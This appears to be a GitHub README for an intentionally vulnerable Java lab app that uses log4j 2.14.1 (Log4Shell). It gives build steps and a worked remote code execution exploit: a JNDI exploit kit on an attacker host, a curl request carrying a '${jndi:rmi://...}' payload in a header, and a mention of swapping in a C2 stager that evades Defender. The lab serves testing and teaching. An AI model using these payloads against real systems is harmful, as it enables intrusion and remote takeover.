


# log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

(JDK is needed.)

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.



UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).


